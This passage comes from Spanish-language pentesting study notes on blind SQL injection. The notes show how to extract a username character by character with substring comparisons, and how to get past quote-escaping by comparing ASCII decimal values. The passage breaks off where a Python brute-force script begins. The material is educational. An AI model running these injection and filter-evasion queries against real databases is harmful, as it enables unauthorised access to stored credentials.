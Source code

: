 Si se tiene la siguiente query:

```bash
# Esto da como resultado: b
select(select(substring(username,1,1)) from users where id=1);

# Esto hace una comparación: ¿'b' = 'b'? -> 1
select(select(substring(username,1,1)) from users where id=1)='b';
```

Esta query básicamente está tomando el primer caractér del usuario el cual tiene como id 1 y lo compara con “b”, en caso de que esto sea cierto, daría como resultado 1 y en el caso contrario sería 0.

El problema es que cuando el código está sanitizado para que se escapen las comillas, esta query no servirá por lo que se deben usar otras formas para evadir esta restricción.

Una forma para evadir esto es utilizando decimales, en lugar de usa “b”, se usaría en su forma decimal:

```bash
# Da como resultado 98 el cual corresponde a "b" en decimal
select(select ascii(substring(username,1,1)) from users where id=1);
```

![Untitled](../assets/OWASP-TOP-10/SQL Injection (SQLI)/Untitled 29.png)

De forma que ahora se puede modificar la query para que en lugar de usar comillas para encerrar un string, se usan números decimales los cuales no necesitan de comillas:

```bash
# Esto hace una comparación: ¿98 = 98? -> 1
select(select ascii(substring(username,1,1)) from users where id=1)=98;
```

Ejemplos de lo hablado anteriormente:

![Prueba básica de forzado de “404 Not Found” y “200 OK”](../assets/OWASP-TOP-10/SQL Injection (SQLI)/Untitled 30.png)

Prueba básica de forzado de “404 Not Found” y “200 OK”

![Prueba de petición con decimales y sin decimales con comillas.](../assets/OWASP-TOP-10/SQL Injection (SQLI)/Untitled 31.png)

Prueba de petición con decimales y sin decimales con comillas.

*El parámetro **`-G --data-urlencode`** sirve para tramitar peticiones por GET de forma “urlconded”, sin esto, se tendría que urlencodear la petición manualmente.*

**Script en Python**

Sabiendo esto, se podría crear un script en python para automatiza el proceso:

```bash
# Instalar pwn tools
pip3 install pwn
```

- Script para fuzzear usuarios y contraseñas basado en el código de estado
    
    ```bash
    #!/usr/bin/python3
    